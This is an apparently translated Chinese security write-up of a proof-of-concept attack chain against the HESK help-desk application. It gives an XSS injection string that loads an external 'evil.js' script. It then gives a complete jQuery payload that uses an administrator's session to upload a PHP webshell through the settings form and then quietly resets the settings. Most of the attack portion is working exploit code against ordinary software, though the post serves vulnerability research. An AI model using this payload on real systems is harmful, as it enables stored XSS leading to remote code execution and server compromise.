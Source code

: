   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6eicP5niczkfb1ftjbcM1KlVGCeCD3e36WkKiarW3L5Nns5pLY6JHGmDeg/640?wx_fmt=png&from=appmsg "")  
  
正如您所看到的，没有什么可以阻止我在这里上传 PHP 文件。导航到登录屏幕，我找到了图片，或者至少是它的占位符。“src”属性显示了放入 /cache 文件夹中的“后门”。在另一个选项卡中打开它可以为我们提供每个黑客都想要的东西，即在网络服务器上执行代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6LrFmDstAib6IGANmibIz33EzJOLvmre3v027ek3WLP3ceMHlRxXOODDw/640?wx_fmt=png&from=appmsg "")  
  
现在我们知道我们想要什么，但是我们如何实现它，我们可以将整个 JavaScript 负载放入数据库吗？我们遇到了 hesk 数据库：  
mysql -u root然后  
use hesk;。  
describe hesk_tickets;这表明我们在经度和纬度各有 100 个角色可以玩。好吧，我们可能可以摆脱这个（嘘！用户代理标头也容易受到 XSS 的攻击 - 并且它在数据库中的类型是 TEXT！），但我没有时间对代码进行微优化，尽管我真的很喜欢它。我们还可以在任一可见票证字段中对一些有效负载数据进行 Base64 编码，但这不会很隐蔽......  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafeCNaUVXUAw6ww5h6sDYA6JJPAJia1OvmAyAicKXNlo0Xga784AjvIeHGFMsZ1t2xnxwVIrNy7ta0g/640?wx_fmt=png&from=appmsg "")  
  
改天我们将跨越 CSP 旁路（例如通过利用附件 :D）桥，现在我将解决加载外部脚本的问题。有一千种方法可以做到这一点，但我选择了（localhost在这里工作，因为我正在攻击本地安装的web应用程序）：  
```
1;</script><script src='http://localhost/js/evil.js'/><script>//
```  
  
不喜欢开发工具控制台窗口中带有文本的红线，我在末尾添加注释以注释掉不受我们控制的分号。  
  
现在 jQuery 已经存在，这将使一些事情变得更容易（至少对我来说）。在等待 DOM 加载的 IIFE （立即调用函数表达式）中制作有效负载：  
```
(function(){
  $(document).ready(function () {
    $.get( "/admin/admin_settings.php", function(htmldata) {
      var f = $('form[name="form1"]', $(htmldata));
      // We will try to upload RCE payload
      var fd = new FormData(f[0]);
      fd.set('login-box-header', 'image');
      var blob = new Blob(["<?php echo shell_exec('id'); ?>"], {
        type: 'application/x-php'
      });
      fd.set('login-box-header-image', blob, 'whateverdontmatter.php'); /* Check it out: https://www.youtube.com/watch?v=w8QH93jWZbk */
      $.ajax({
        url: $(f).attr('action'),
        data: fd,
        processData: false,
        contentType: false,
        type: 'POST',
        success: function(data){
          // This is incorrect, page returns 200 either way and I am also being lazy with the printout of the backdoor, but this is just a PoC :D
          console.log("Seems we were successful, check the door: http://localhost/cache/lbh_login-box-header-image.php");
        }
      });
      // Remember to reset login-box-header to helpdesk-title and save settings again
      var reset = new FormData(f[0]);
      $.ajax({
        url: $(f).attr('action'),
        data: reset,
        processData: false,
        contentType: false,
        type: 'POST',
        success: function(data){
          console.log("Cleanup done...");
        }
      });
    }
  });
})()
```